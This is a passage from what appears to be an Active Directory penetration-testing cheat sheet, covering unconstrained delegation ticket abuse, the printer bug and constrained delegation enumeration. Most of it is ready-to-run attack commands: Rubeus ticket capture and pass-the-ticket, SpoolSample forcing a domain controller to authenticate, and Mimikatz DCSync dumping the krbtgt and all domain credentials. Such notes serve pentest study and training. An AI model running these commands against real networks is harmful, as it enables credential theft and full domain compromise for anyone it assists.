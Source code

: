 ````

```
.\Rubeus.exe ptt /ticket:<TICKET FILE>
```

#### Run DCSync to get credentials:
- use ```/all``` instead of ```/user``` to list all users
```
Invoke-Mimikatz -Command '"lsadump::dcsync /user:<DOMAIN>\krbtgt /domain:<DOMAIN>"'
```

### Printer bug
- A feature of MS-RPRN which allows any domain user (Authenticated User) can force any machine (running the Spooler service) to connect to second a machine of the domain user's choice.
- A way to force a TGT of DC on the target machine
- https://github.com/leechristensen/SpoolSample
#### Check if spool server is running
```
#Edit IP at the bottom
spoolerscan.ps1
```

```
ls \\<DC>\pipe\spoolss
```

#### Listen with rubeus for incoming tickets
- Requires running as system!
- https://powershell-guru.com/powershell-tip-53-run-powershell-as-system/
```
.\rubeus.exe monitor /interval:5
```

#### Force authentication of the DC
```
.\SpoolSample.exe <DC FQDN> <TARGET SERVER WITH DELEGATION>
```

#### Copy, save and trim the ticket
```
cat dc_ticket.txt | tr -d "\n" | tr -d " "
```

#### Import the ticket
- Paste the ticket from previous command
```
.\Rubeus.exe ptt /ticket:<TICKET>
```

#### Then DCSync
```
Invoke-Mimikatz -Command '"lsadump::dcsync /all"'
```

### Constrained Delegation
- To execute attack owning the user or server with constrained delegation is required.
#### Enumerate users with contrained delegation enabled
- Use the ```-domain``` flag to check for other domains
```
Get-DomainUser -TrustedToAuth
Get-DomainUser -TrustedToAuth | select samaccountname, msds-allowedtodelegateto
```

#### Enumerate computers with contrained delegation enabled
- Use the ```-domain``` flag to check for other domains
```
Get-Domaincomputer -TrustedToAuth
````